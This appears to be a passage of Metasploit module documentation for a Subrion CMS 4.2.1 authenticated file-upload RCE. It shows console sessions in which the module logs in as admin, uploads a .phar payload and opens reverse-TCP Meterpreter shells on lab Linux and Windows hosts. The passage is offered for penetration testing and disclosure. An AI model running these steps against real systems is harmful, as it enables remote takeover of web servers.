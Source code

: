 ```
OS          : Linux 3514d9412b2d 5.15.90.1-microsoft-standard-WSL2 #1 SMP Fri Jan 27 02:56:13 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > 
```

### Subrion CMS v4.2.1 with XAMPP on Windows Server 2016

* Using PHP payload - default TARGET 0

```
msf exploit(multi/http/subrion_cms_file_upload_rce) > run rhosts=192.168.100.103 lhost=192.168.100.1 username=admin password=123456 verbose=true targeturi=subrion/

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.100.103/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: JV9hc6PcMf0fO9VF9uqEMkiWQvNBiredsOQuqYtb
[*] Logging in to Subrion Admin Panel at: http://192.168.100.103/panel/ using credentials admin:123456
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.100.103/subrion/uploads/ftxweolrol.phar
[*] Executing 'ftxweolrol.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.100.103
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.103:50048) at 2023-07-27 18:20:46 +0200
[+] Successfully executed payload: http://192.168.100.103/subrion/uploads/ftxweolrol.phar

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN2019
OS          : Windows NT WIN2019 10.0 build 17763 (Windows Server 2016) AMD64
Meterpreter : php/windows
```

### Subrion CMS v4.2.1 with XAMPP on Windows 10

* Using PHP paylod - default TARGET 0

```
msf > use exploit/multi/http/subrion_cms_file_upload_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => eth0
msf exploit(multi/http/subrion_cms_file_upload_rce) > set PASSWORD 123456
PASSWORD => 123456
msf exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.29.1/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
```